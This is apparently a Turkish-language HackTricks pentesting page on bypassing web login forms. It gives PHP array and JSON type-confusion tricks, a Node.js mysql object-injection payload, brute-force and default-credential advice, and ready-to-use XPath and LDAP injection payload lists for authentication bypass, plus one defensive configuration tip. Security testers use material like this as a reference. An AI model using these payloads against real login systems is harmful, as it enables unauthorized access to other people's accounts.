 # Login Bypass

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **İspanya**'daki en önemli siber güvenlik etkinliği ve **Avrupa**'daki en önemli etkinliklerden biridir. **Teknik bilgiyi teşvik etme misyonu** ile bu kongre, her disiplinde teknoloji ve siber güvenlik profesyonelleri için kaynayan bir buluşma noktasıdır.

{% embed url="https://www.rootedcon.com/" %}

## **Normal girişi atla**

Bir giriş sayfası bulursanız, bunu atlamak için deneyebileceğiniz bazı teknikler şunlardır:

* Sayfa içindeki **yorumları** kontrol edin (aşağı ve sağa kaydırın?)
* **Kısıtlı sayfalara doğrudan erişip erişemeyeceğinizi** kontrol edin
* **parametreleri göndermemeye** dikkat edin (hiç göndermeyin veya sadece 1 gönderin)
* **PHP karşılaştırma hatasını** kontrol edin: `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **İçerik türünü json olarak değiştirin** ve json değerleri gönderin (bool true dahil)
* POST'un desteklenmediğini belirten bir yanıt alırsanız, **JSON'u gövdeye ama GET isteği ile** `Content-Type: application/json` ile göndermeyi deneyebilirsiniz
* nodejs potansiyel ayrıştırma hatasını kontrol edin (okuyun [**bu**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs, bu yükü aşağıdaki gibi bir sorguya dönüştürecektir: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` bu, şifre bitinin her zaman doğru olmasını sağlar.
* Eğer bir JSON nesnesi gönderebiliyorsanız, girişi atlamak için `"password":{"password": 1}` gönderebilirsiniz.
* Bu girişi atlamak için hala **geçerli bir kullanıcı adı bilmeniz ve göndermeniz gerektiğini** unutmayın.
* `mysql.createConnection` çağrısında **`"stringifyObjects":true`** seçeneğini eklemek, **parametre olarak `Object` geçirildiğinde tüm beklenmedik davranışları engelleyecektir.**
* Kimlik bilgilerini kontrol edin:
* Kullanılan teknoloji/platformun [**varsayılan kimlik bilgileri**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **Yaygın kombinasyonlar** (root, admin, password, teknolojinin adı, bu şifrelerden biriyle varsayılan kullanıcı).
* **Cewl** kullanarak bir sözlük oluşturun, **varsayılan** kullanıcı adı ve şifreyi (varsa) ekleyin ve tüm kelimeleri **kullanıcı adı ve şifre** olarak kullanarak brute-force yapmayı deneyin.
* Daha büyük bir **sözlük** kullanarak **brute-force** yapın (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)

### SQL Injection kimlik doğrulama atlatma

[Burada **SQL enjeksiyonları** aracılığıyla girişi atlamak için birkaç ipucu bulabilirsiniz](../sql-injection/#authentication-bypass).

Aşağıdaki sayfada **SQL Enjeksiyonları** aracılığıyla girişi atlamak için bir **özel liste** bulabilirsiniz:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection kimlik doğrulama atlatma

[Burada **No SQL Enjeksiyonları** aracılığıyla girişi atlamak için birkaç ipucu bulabilirsiniz](../nosql-injection.md#basic-authentication-bypass)**.**

NoSQL Enjeksiyonları parametre değerlerini değiştirmeyi gerektirdiğinden, bunları manuel olarak test etmeniz gerekecektir.

### XPath Injection kimlik doğrulama atlatma

[Burada **XPath Injection** aracılığıyla girişi atlamak için birkaç ipucu bulabilirsiniz.](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection kimlik doğrulama atlatma

[Burada **LDAP Injection** aracılığıyla oturumu atlatmak için birkaç hile bulabilirsiniz.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Beni Hatırla

Eğer sayfada "**Beni Hatırla**" işlevi varsa, nasıl uygulandığını kontrol edin ve bunu **diğer hesapları ele geçirmek** için kötüye kullanıp kullanamayacağınıza bakın.

### Yönlendirmeler

Sayfalar genellikle giriş yaptıktan sonra kullanıcıları yönlendirir, bu yönlendirmeyi değiştirebilir misiniz [**Açık Yönlendirme**](../open-redirect.md) oluşturmak için kontrol edin. Kullanıcıyı kendi web sitenize yönlendirirseniz bazı bilgileri (kodlar, çerezler...) çalabilirsiniz.

## Diğer Kontroller

* Giriş işlevini kötüye kullanarak **kullanıcı adlarını sayıp sayamayacağınızı** kontrol edin.
* Şifre/**hassas** bilgiler **formları** **girişi** için **otomatik tamamlama** aktif mi kontrol edin: `<input autocomplete="false">`

## Otomatik Araçlar
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **İspanya**'daki en ilgili siber güvenlik etkinliği ve **Avrupa**'daki en önemli etkinliklerden biridir. **Teknik bilgiyi teşvik etme misyonu** ile bu kongre, her disiplinde teknoloji ve siber güvenlik profesyonelleri için kaynayan bir buluşma noktasıdır.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
